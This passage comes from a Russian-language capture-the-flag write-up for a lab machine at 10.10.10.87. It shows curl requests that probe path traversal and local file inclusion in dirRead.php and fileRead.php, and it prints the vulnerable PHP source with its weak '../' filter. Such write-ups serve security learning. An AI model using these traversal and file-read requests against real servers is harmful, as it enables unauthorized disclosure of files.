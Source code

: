 4\. возврат на главную страницу и автоматическое обновление листинга списков (`dirRead.php`):
```http
POST /dirRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-type: application/x-www-form-urlencoded
Content-Length: 13
DNT: 1
Connection: close

path=./.list/
```

## Path Traversal + LFI
Для начала попробуем воспользоваться скриптом `dirRead.php` в корыстных целях, а именно — запросить листинг произвольной директории.

Рабочая директория возвращается без проблем:
```text
root@kali:~# curl -s -X POST -d 'path=.' http://10.10.10.87/dirRead.php
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

Корень определен сюда же (это было видно еще из Burp-запросов):
```text
root@kali:~# curl -s -X POST -d 'path=/' http://10.10.10.87/dirRead.php
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

И вырваться назад с помощью `../` не получается:
```text
root@kali:~# curl -s -X POST -d 'path=../../' http://10.10.10.87/dirRead.php
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

Значит, стоят фильтры строк пути. Теперь настала очередь в корыстных целях воспользоваться скриптом `fileRead.php`, а именно — запросить содержимое произвольного файла.

Посмотрим на исходники `dirRead.php` для определения метода фильтрации (для того, чтобы получить код в читаемом виде, отлично подойдет [jq](https://stedolan.github.io/jq/ "jq") — топовый JSON-процессор):
```text
root@kali:~# curl -s -X POST -d 'file=dirRead.php' http://10.10.10.87/fileRead.php | jq -r .'file'
```

```php
<?php

if($_SERVER['REQUEST_METHOD'] === "POST"){
        if(isset($_POST['path'])){
                header('Content-type: application/json');
                $_POST['path'] = str_replace( array("../", "..\""), "", $_POST['path']);
                echo json_encode(scandir("/var/www/html/" . $_POST['path']));
        }else{
                header('Content-type: application/json');
                echo '[false]';
        }
}
```
